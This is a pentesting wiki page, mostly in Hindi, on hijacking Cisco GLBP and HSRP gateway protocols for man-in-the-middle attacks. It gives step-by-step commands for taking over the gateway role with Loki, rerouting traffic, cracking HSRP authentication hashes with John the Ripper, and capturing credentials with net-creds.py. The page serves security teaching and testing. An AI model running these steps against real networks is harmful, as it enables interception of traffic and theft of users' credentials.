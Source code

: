 # GLBP & HSRP Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## FHRP Hijacking Overview

### Insights into FHRP
FHRP को नेटवर्क की मजबूती प्रदान करने के लिए डिज़ाइन किया गया है, जो कई राउटर को एकल वर्चुअल यूनिट में मिलाता है, इस प्रकार लोड वितरण और दोष सहिष्णुता को बढ़ाता है। Cisco Systems ने इस सूट में प्रमुख प्रोटोकॉल पेश किए, जैसे GLBP और HSRP।

### GLBP Protocol Insights
Cisco का निर्माण, GLBP, TCP/IP स्टैक पर कार्य करता है, संचार के लिए UDP का उपयोग करते हुए पोर्ट 3222 पर। GLBP समूह में राउटर "हैलो" पैकेट 3 सेकंड के अंतराल पर आदान-प्रदान करते हैं। यदि कोई राउटर 10 सेकंड के लिए इन पैकेट को भेजने में विफल रहता है, तो इसे ऑफ़लाइन माना जाता है। हालाँकि, ये टाइमर निश्चित नहीं हैं और इन्हें संशोधित किया जा सकता है।

### GLBP Operations and Load Distribution
GLBP राउटर के बीच लोड वितरण को सक्षम बनाकर अलग खड़ा होता है, जो एकल वर्चुअल IP के साथ कई वर्चुअल MAC पते का उपयोग करता है। GLBP समूह में, प्रत्येक राउटर पैकेट फॉरवर्डिंग में शामिल होता है। HSRP/VRRP के विपरीत, GLBP कई तंत्रों के माध्यम से वास्तविक लोड संतुलन प्रदान करता है:

- **Host-Dependent Load Balancing:** एक होस्ट को स्थिर AVF MAC पता असाइनमेंट बनाए रखता है, जो स्थिर NAT कॉन्फ़िगरेशन के लिए आवश्यक है।
- **Round-Robin Load Balancing:** डिफ़ॉल्ट दृष्टिकोण, अनुरोध करने वाले होस्टों के बीच AVF MAC पता असाइनमेंट को वैकल्पिक करता है।
- **Weighted Round-Robin Load Balancing:** पूर्वनिर्धारित "वजन" मैट्रिक्स के आधार पर लोड वितरित करता है।

### Key Components and Terminologies in GLBP
- **AVG (Active Virtual Gateway):** मुख्य राउटर, जो समकक्ष राउटर को MAC पते आवंटित करने के लिए जिम्मेदार है।
- **AVF (Active Virtual Forwarder):** एक राउटर जिसे नेटवर्क ट्रैफ़िक प्रबंधित करने के लिए नामित किया गया है।
- **GLBP Priority:** एक मैट्रिक जो AVG को निर्धारित करता है, जो 100 के डिफ़ॉल्ट से शुरू होता है और 1 से 255 के बीच होता है।
- **GLBP Weight:** एक राउटर पर वर्तमान लोड को दर्शाता है, जिसे मैन्युअल रूप से या ऑब्जेक्ट ट्रैकिंग के माध्यम से समायोजित किया जा सकता है।
- **GLBP Virtual IP Address:** सभी जुड़े उपकरणों के लिए नेटवर्क का डिफ़ॉल्ट गेटवे के रूप में कार्य करता है।

इंटरैक्शन के लिए, GLBP आरक्षित मल्टीकास्ट पते 224.0.0.102 और UDP पोर्ट 3222 का उपयोग करता है। राउटर 3 सेकंड के अंतराल पर "हैलो" पैकेट भेजते हैं, और यदि 10 सेकंड के दौरान कोई पैकेट छूट जाता है, तो उन्हें गैर-कार्यात्मक माना जाता है।

### GLBP Attack Mechanism
एक हमलावर उच्चतम प्राथमिकता मान (255) के साथ GLBP पैकेट भेजकर प्राथमिक राउटर बन सकता है। इससे DoS या MITM हमलों का कारण बन सकता है, जिससे ट्रैफ़िक का अवरोधन या पुनर्निर्देशन संभव होता है।

### Executing a GLBP Attack with Loki
[Loki](https://github.com/raizo62/loki_on_kali) एक GLBP हमले को प्राथमिकता और वजन को 255 पर सेट करके पैकेट इंजेक्ट करके कर सकता है। हमले से पहले के चरणों में वर्चुअल IP पता, प्रमाणीकरण की उपस्थिति, और राउटर प्राथमिकता मानों जैसी जानकारी इकट्ठा करना शामिल है, जिसका उपयोग Wireshark जैसे उपकरणों से किया जाता है।

Attack Steps:
1. प्रमिस्क्यूस मोड में स्विच करें और IP फॉरवर्डिंग सक्षम करें।
2. लक्षित राउटर की पहचान करें और इसका IP प्राप्त करें।
3. एक Gratuitous ARP उत्पन्न करें।
4. AVG का अनुकरण करते हुए एक दुर्भावनापूर्ण GLBP पैकेट इंजेक्ट करें।
5. हमलावर के नेटवर्क इंटरफेस को GLBP वर्चुअल IP को दर्शाते हुए एक द्वितीयक IP पता असाइन करें।
6. पूर्ण ट्रैफ़िक दृश्यता के लिए SNAT लागू करें।
7. सुनिश्चित करें कि मूल AVG राउटर के माध्यम से इंटरनेट एक्सेस जारी रखने के लिए राउटिंग को समायोजित करें।

इन चरणों का पालन करके, हमलावर "मैन इन द मिडल" के रूप में खुद को स्थापित करता है, जो नेटवर्क ट्रैफ़िक का अवरोधन और विश्लेषण करने में सक्षम होता है, जिसमें असुरक्षित या संवेदनशील डेटा शामिल है।

For demonstration, here are the required command snippets:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
Monitoring and intercepting traffic can be done using net-creds.py or similar tools to capture and analyze data flowing through the compromised network.

### Passive Explanation of HSRP Hijacking with Command Details

#### Overview of HSRP (Hot Standby Router/Redundancy Protocol)
HSRP एक Cisco का स्वामित्व वाला प्रोटोकॉल है जिसे नेटवर्क गेटवे की पुनरावृत्ति के लिए डिज़ाइन किया गया है। यह एक साझा IP पते के साथ कई भौतिक राउटरों को एकल तार्किक इकाई में कॉन्फ़िगर करने की अनुमति देता है। इस तार्किक इकाई का प्रबंधन एक प्राथमिक राउटर द्वारा किया जाता है जो ट्रैफ़िक को निर्देशित करने के लिए जिम्मेदार होता है। GLBP के विपरीत, जो लोड संतुलन के लिए प्राथमिकता और वजन जैसे मैट्रिक्स का उपयोग करता है, HSRP ट्रैफ़िक प्रबंधन के लिए एकल सक्रिय राउटर पर निर्भर करता है।

#### Roles and Terminology in HSRP
- **HSRP Active Router**: गेटवे के रूप में कार्य करने वाला उपकरण, ट्रैफ़िक प्रवाह का प्रबंधन करता है।
- **HSRP Standby Router**: एक बैकअप राउटर, जो सक्रिय राउटर के विफल होने पर कार्यभार संभालने के लिए तैयार है।
- **HSRP Group**: राउटरों का एक सेट जो एकल लचीला वर्चुअल राउटर बनाने के लिए सहयोग करता है।
- **HSRP MAC Address**: HSRP सेटअप में तार्किक राउटर को असाइन किया गया एक वर्चुअल MAC पता।
- **HSRP Virtual IP Address**: HSRP समूह का वर्चुअल IP पता, जो जुड़े उपकरणों के लिए डिफ़ॉल्ट गेटवे के रूप में कार्य करता है।

#### HSRP Versions
HSRP दो संस्करणों में आता है, HSRPv1 और HSRPv2, जो मुख्य रूप से समूह क्षमता, मल्टीकास्ट IP उपयोग और वर्चुअल MAC पता संरचना में भिन्न होते हैं। प्रोटोकॉल सेवा जानकारी के आदान-प्रदान के लिए विशिष्ट मल्टीकास्ट IP पतों का उपयोग करता है, जिसमें हर 3 सेकंड में Hello पैकेट भेजे जाते हैं। यदि 10 सेकंड के अंतराल में कोई पैकेट प्राप्त नहीं होता है, तो राउटर को निष्क्रिय माना जाता है।

#### HSRP Attack Mechanism
HSRP हमले सक्रिय राउटर की भूमिका को अधिकतम प्राथमिकता मान को इंजेक्ट करके बलात्कृत करने में शामिल होते हैं। इससे एक Man-In-The-Middle (MITM) हमला हो सकता है। आवश्यक पूर्व-हमला कदमों में HSRP सेटअप के बारे में डेटा एकत्र करना शामिल है, जिसे ट्रैफ़िक विश्लेषण के लिए Wireshark का उपयोग करके किया जा सकता है।

#### Steps for Bypassing HSRP Authentication
1. HSRP डेटा वाले नेटवर्क ट्रैफ़िक को .pcap फ़ाइल के रूप में सहेजें।
```shell
tcpdump -w hsrp_traffic.pcap
```
2. hsrp2john.py का उपयोग करके .pcap फ़ाइल से MD5 हैश निकालें।
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripper का उपयोग करके MD5 हैश को क्रैक करें।
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Executing HSRP Injection with Loki**

1. HSRP विज्ञापनों की पहचान करने के लिए Loki लॉन्च करें।
2. नेटवर्क इंटरफ़ेस को प्रमिस्क्यूअस मोड में सेट करें और IP फॉरवर्डिंग सक्षम करें।
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Loki का उपयोग करके विशिष्ट राउटर को लक्षित करें, क्रैक किया गया HSRP पासवर्ड दर्ज करें, और सक्रिय राउटर की नकल करने के लिए आवश्यक कॉन्फ़िगरेशन करें।
4. सक्रिय राउटर की भूमिका प्राप्त करने के बाद, अपने नेटवर्क इंटरफ़ेस और IP टेबल को वैध ट्रैफ़िक को इंटरसेप्ट करने के लिए कॉन्फ़िगर करें।
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. राउटिंग तालिका को पूर्व सक्रिय राउटर के माध्यम से ट्रैफ़िक को रूट करने के लिए संशोधित करें।
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. इंटरसेप्टेड ट्रैफ़िक से क्रेडेंशियल कैप्चर करने के लिए net-creds.py या समान उपयोगिता का उपयोग करें।
```shell
sudo python2 net-creds.py -i eth0
```

इन चरणों को निष्पादित करने से हमलावर को ट्रैफ़िक को इंटरसेप्ट और हेरफेर करने की स्थिति में रखा जाता है, जो GLBP हाईजैकिंग की प्रक्रिया के समान है। यह HSRP जैसे पुनरावृत्ति प्रोटोकॉल में कमजोरियों और मजबूत सुरक्षा उपायों की आवश्यकता को उजागर करता है।

## References
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
